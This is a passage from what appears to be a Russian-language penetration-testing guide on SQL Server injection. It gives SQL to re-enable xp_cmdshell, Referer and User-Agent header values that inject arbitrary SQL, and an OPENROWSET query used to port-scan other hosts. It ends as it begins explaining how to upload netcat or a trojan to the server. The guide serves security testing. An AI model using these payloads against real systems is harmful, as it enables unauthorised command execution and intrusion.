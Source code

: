 Этот код, написанный Антонином Фоллером (см. Ссылки внизу страницы), создает новый `xp_cmdshell` с использованием `sp_oacreate`, `sp_oamethod` и `sp_oadestroy` (если они тоже не были отключены, конечно). Перед его использованием нам нужно удалить первую созданную нами `xp_cmdshell` (даже если она не работала), в противном случае эти две декларации столкнутся.

На SQL Server 2005 `xp_cmdshell` можно включить, введя вместо этого следующий код:

```sql
master..sp_configure 'show advanced options',1
reconfigure
master..sp_configure 'xp_cmdshell',1
reconfigure
```

### Пример 6: Referer / User-Agent

Заголовок `REFERER` установлен на :

`Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--`

Позволяет выполнять произвольный код SQL. То же самое происходит с заголовком User-Agent, установленным в:

`User-Agent: user_agent', 'some_ip'); [SQL CODE]--`

### Пример 7: SQL Server как сканер портов

В SQL Server одной из наиболее полезных (по крайней мере, для тестера проникновения) команд является OPENROWSET, который используется для запуска запроса на другом DB Server и получения результатов. Тестер проникновения может использовать эту команду для сканирования портов других машин в целевой сети, вводя следующий запрос:

`select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--`

Этот запрос будет пытаться подключиться к адресу x.y.w.z на порту p. Если порт закрыт, будет возвращено следующее сообщение:

`SQL Server does not exist or access denied`

С другой стороны, если порт открыт, будет возвращена одна из следующих ошибок:

`General network error. Check your network documentation`

`OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.`

Конечно, сообщение об ошибке не всегда доступно. Если это так, мы можем использовать время отклика, чтобы понять, что происходит: при закрытом порту время ожидания (5 секунд в этом примере) будет использовано, тогда как открытый порт вернет результат сразу.

Имейте в виду, что OPENROWSET включен по умолчанию в SQL Server 2000, но отключен в SQL Server 2005.

### Пример 8: Загрузка исполняемых файлов

Как только мы сможем использовать `xp_cmdshell` (собственный или пользовательский), мы можем легко загрузить исполняемые файлы на целевой сервер DB. Очень распространенным выбором является `netcat.exe`, но любой троян будет полезен здесь. Если цели разрешено запускать FTP-соединения с машиной тестера, все, что нужно, это ввести следующие запросы:
